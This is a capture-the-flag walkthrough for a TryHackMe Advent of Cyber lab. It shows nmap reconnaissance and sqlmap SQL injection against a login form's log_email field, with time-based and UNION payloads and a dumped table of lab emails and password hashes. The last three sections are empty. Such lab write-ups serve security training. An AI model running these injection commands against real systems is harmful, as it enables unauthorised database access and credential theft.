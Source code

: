 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 23
## Reconnaissance
* An `nmap` scan:
```bash
$ sudo nmap -sV -p- -vv 10.10.224.13
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
2. The HTTP request used for loging in that Burpsuite captured (saved as `request.txt`):
```http
POST /register.php HTTP/1.1
Host: 10.10.224.13
Content-Length: 62
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.224.13
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.224.13/register.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=4ff77qqc7jmoamdon1h2touoih
Connection: close

log_email=test%40test.org&log_password=test&login_button=Login
```
## Which field is SQL injectable? Use the input name used in the HTML code.
* Use `sqlmap` to find the name of the database and the SQL-injectable field:
```bash
$ sqlmap -r $(pwd)/request.txt --current-db
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.org' AND (SELECT 4994 FROM (SELECT(SLEEP(5)))tGFA) AND 'KwiJ'='KwiJ&log_password=test&login_button=Login
current database: 'social'
```
**Answer**: `log_email`
## What is Santa Claus' email address?
1. Use `sqlmap` to get the table names under the `social` database:
```bash
$ sqlmap -r $(pwd)/request.txt -D social --tables	
---
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.org' AND (SELECT 4994 FROM (SELECT(SLEEP(5)))tGFA) AND 'KwiJ'='KwiJ&log_password=test&login_button=Login
---
Database: social
[8 tables]
+-----------------+
| comments        |
| friend_requests |
| likes           |
| messages        |
| notifications   |
| posts           |
| trends          |
| users           |
+-----------------+
```
2. 
```bash
$ sqlmap -r $(pwd)/request.txt -D social -T users -C username,email,password --dump
---
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.org' AND (SELECT 2841 FROM (SELECT(SLEEP(5)))OIiK) AND 'FpXc'='FpXc&log_password=test&login_button=Login

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: log_email=test@test.org' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x717a717171,0x6c70647376585242715742557051726f556f6d6d45794b4b476547665575685347497153756d476f,0x7170716b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&log_password=test&login_button=Login
---
Database: social
Table: users
[9 entries]
+-----------------------+------------------------+----------------------------------+
| username              | email                  | password                         |
+-----------------------+------------------------+----------------------------------+
| santa_claus           | bigman@shefesh.com     | f1267830a78c0b59acc06b05694b2e28 |
| mommy_mistletoe       | mmtoe@shefesh.com      | 402223cb4df4c5050a38043d38b1372b |
| arnold_schwarzenegger | terminator@shefesh.com | 78a6d0e6c73a29ef6d07d56f32f67b30 |
| johnfortnite_kennedy  | jayfkay@shefesh.com    | bc808149a93bc7050c3c6c4b7a5a0c97 |
| john_richardson       | john@keepingit.online  | aa4e356d1509f1c1f53e0191601cde72 |
| naughty_elf           | notty@shefesh.com      | 6aff5ae0718de8945a3f71ba4d1ca76f |
| felix_navidad         | felixnav@shefesh.com   | 57e9eb182943223b0b4e7f17c5e4cb6e |
| jessica_claus         | mrsclaus@shefesh.com   | 15bc4f3ba871b2fa651363dcddfb27d9 |
| myron_larabee         | mailman@shefesh.com    | a60c0662c54bde0301d9aa2ad86203df |
+-----------------------+------------------------+----------------------------------+
```

**Answer**: `bigman@shefesh.com`
## What is Santa Claus' plaintext password?
```bash
```

## Santa has a secret! Which station is he meeting Mrs Mistletoe in?
```bash
```

## Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in `/home/user/`
```bash
```
